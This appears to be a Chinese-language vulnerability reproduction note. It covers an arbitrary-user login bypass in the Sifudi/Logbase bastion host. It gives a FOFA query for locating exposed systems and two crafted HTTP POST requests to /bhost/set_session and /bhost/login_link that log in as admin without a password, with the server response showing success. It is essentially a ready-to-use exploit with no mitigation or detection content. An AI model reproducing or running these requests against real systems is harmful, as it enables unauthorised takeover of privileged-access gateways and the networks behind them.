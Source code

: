 # 思福迪堡垒机 任意用户登录漏洞

## 漏洞描述

思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任
意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

```
思福迪堡垒机
```

## FOFA

```
"Logbase运维安全管理系统"
```

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```plain
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```



获得：**{"result":true,"info":"1562205376847","ErrMsg":""}**



带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```plain
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```



利用后即可登录后台

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101953637.png)